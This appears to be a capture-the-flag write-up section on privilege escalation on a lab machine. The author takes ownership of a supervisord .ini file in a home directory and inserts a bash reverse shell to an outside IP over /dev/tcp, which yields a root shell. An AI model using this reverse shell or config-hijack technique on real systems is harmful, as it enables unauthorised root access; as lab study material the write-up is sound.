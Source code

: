 # 20 - PrivEsc

# Home Directory Permissions

![](vx_images/1351786736502.png)

memcached.ini root writeable only but professor is the owner of the directory. The user can delete a file in his home directory and create it again  to gain ownership on it.

# memcached.ini
```
lacasadepapel [~]$ cat memcached.ini
[program:memcached]
command = sudo -u nobody /usr/bin/node /home/professor/memcached.js
```

# Full ownership of memcached.ini

```
lacasadepapel [~]$ mv memcached.ini  memcached.ini.old
lacasadepapel [~]$ cp memcached.ini.old  memcached.ini
```


![](vx_images/1872006525594.png)

Now professor is the owner of memcached.ini, memcached.ini.old is kept  for backup

# Reverse shell in memcached.ini
```sql
lacasadepapel [~]$ cat memcached.ini
[program:memcached]
command = bash -c "bash -i >& /dev/tcp/10.10.14.18/4444 0>&1"
```

# Pspy shows how our reverse shell is executed
![](vx_images/5708902178979.png)

Something, probably in /etc/supervisord.conf, is executing the commands in memcached.ini

# /etc/supervisord.conf is not readable
```
lacasadepapel [~]$ cat /etc/supervisord.conf 
cat: can't open '/etc/supervisord.conf': Permission denied
```

# Root shell

![](vx_images/3132935851345.png)


# /etc/supervisord.conf
```
bash-4.4# cat /etc/supervisord.conf

[unix_http_server]
file=/run/supervisord.sock

[supervisord]
logfile=/dev/null
logfile_maxbytes=0
user=root

[rpcinterface:supervisor]
supervisor.rpcinterface_factory = supervisor.rpcinterface:make_main_rpcinterface

[supervisorctl]
serverurl=unix:///run/supervisord.sock

[include]
files = /home/professor/*.ini
```

My assumption turns out to be correct. Supervisord reads `.ini` files in professor's home directory. There is a command directive that executes the reverse shell.